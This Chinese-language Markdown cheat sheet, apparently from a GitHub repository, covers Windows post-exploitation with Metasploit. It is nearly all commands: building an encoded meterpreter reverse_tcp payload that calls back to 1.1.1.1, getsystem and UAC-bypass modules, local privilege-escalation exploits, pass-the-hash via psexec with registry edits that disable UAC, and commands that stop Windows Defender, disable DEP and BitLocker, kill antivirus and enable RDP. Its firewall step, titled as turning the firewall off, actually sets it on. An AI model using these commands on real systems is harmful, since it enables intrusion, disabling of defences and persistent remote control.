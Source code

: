 
# 后渗透测试阶段

* 原理
* 基于已有session扩大战果
* 获取system账号权限
* 绕过UAC限制
* 利用漏洞直接提权为 system
* 图形化payload
* Psexec 模块之 Passthehash
* 关闭 windows 防火墙
* 关闭 Windefend
* Bitlocker 磁盘加密
* 关闭 DEP
* 杀死防病毒软件
* 开启远程桌面服务
* 查看远程桌面
## 原理
> * 已经获得目标系统控制权后扩大战果
>   - 提权
>   - 信息收集
>   - 渗透内网
>   - 永久后门

## 基于已有session扩大战果
``` 
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp    LHOST=1.1.1.1 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -f exe -o   1.exe
```

## 获取system账号权限
``` 
load priv
getsystem
    priv_elevate_getsystem: Operation failed: Access is denied.
```

## 绕过UAC限制
``` 
use exploit/windows/local/ask
    set session
    set filename
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
    set session
    set payload
```

## 利用漏洞直接提权为 system
``` 
use exploit/windows/local/ms13_053_schlamperei
use exploit/windows/local/ms13_081_track_popup_menu
use exploit/windows/local/ms13_097_ie_registry_symlink
use exploit/windows/local/ppr_flatten_rec
```



## 图形化payload
``` 
set payload windows/vncinject/reverse_tcp
set viewonly no
```

## Psexec 模块之 Passthehash
``` 
use exploit/windows/smb/psexec
set smbpass hash
// 需要提前关闭 UAC
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t        REG_DWORD /d 1 /f
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t        REG_DWORD /d 1 /f
```

## 关闭 windows 防火墙
``` 
netsh advfirewall set allprofiles state on
```

## 关闭 Windefend
``` 
net stop windefend
```

## Bitlocker 磁盘加密
``` 
manage-bde -off C:
manage-bde -status C:
```


## 关闭 DEP
``` 
bcdedit.exe /set {current} nx AlwaysOff
```

## 杀死防病毒软件
``` 
Run killav
run post/windows/manage/killav
```

## 开启远程桌面服务
``` 
run post/windows/manage/enable_rdp
run getgui –e
    run getgui -u yuanfh -p pass
    run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20160824.1855.rc
```

## 查看远程桌面
``` 
screenshot
use espia
    screengrab
```

